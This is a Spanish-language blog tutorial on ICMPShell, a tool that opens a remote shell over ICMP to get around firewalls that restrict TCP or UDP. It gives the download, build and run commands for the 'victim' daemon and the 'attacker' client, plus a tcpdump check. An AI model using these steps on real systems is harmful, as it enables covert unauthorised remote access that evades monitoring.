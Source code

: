 ```yaml
---
title: ICMPShell - Conexiones Inversas mediante ICMP
date: 2024-11-04 09:00:00 
categories: [CIBERSEGURIDAD]
tags: [hacking, linux]
description: Una herramienta que permite realizar conexiones inversas a sistemas remotos utilizando el protocolo ICMP
image: /assets/94/preview1.png
---
```


ICMPShell es una herramienta que permite realizar conexiones inversas a sistemas remotos utilizando el protocolo ICMP (Internet Control Message Protocol).
Este método puede ser útil en situaciones donde el tráfico TCP o UDP esté restringido, ya que algunas configuraciones de firewall no bloquean ni supervisan el tráfico ICMP de la misma forma.

A continuación, se explican los pasos para su instalación y uso.

Es necesario que se descargue desde su repositorio en SourceForge:

    wget http://prdownloads.sourceforge.net/icmpshell/ish-v0.2.tar.gz

Nota: La herramienta es compatible únicamente con sistemas Linux, BSD y Solaris.

Primero que nada es necesario desempaquetar el archivo tar que nos queda.

    tar xzf ish-v0.2.tar.gz
    make <sistema>  # [linux,bsd,solaris] Dependiendo de dónde se va a ejecutar.

Para que la pequeña shell funcione, es necesario que se copie y compile en ambos sistemas (cliente y servidor). Del lado del cliente:

    ./ishd -d -p <puerto>

En el lado del atacante:

    ./ish -tr 0 -p <puerto> <ip_victima>

Para una prueba de concepto podemos hacer uso de tcpdump. Con esta herramienta capturaremos las peticiones de tipo icmp_echo_reply (que es como funciona esta shell).

    tcpdump -nni <interface> -e icmp[icmptype] == 0 #Hacemos captura de paquetes de tipo ICMP_ECHO_REPLY.

NOTA: Si realizamos la prueba de concepto en una misma máquina, es posible hacer captura de los paquetes con loopback (interface lo).

Con wireshark es posible hacer lo propio. Algo de info desde Wikiversity.

[https://en.wikiversity.org/wiki/Wireshark/ICMP_Echo](https://en.wikiversity.org/wiki/Wireshark/ICMP_Echo))


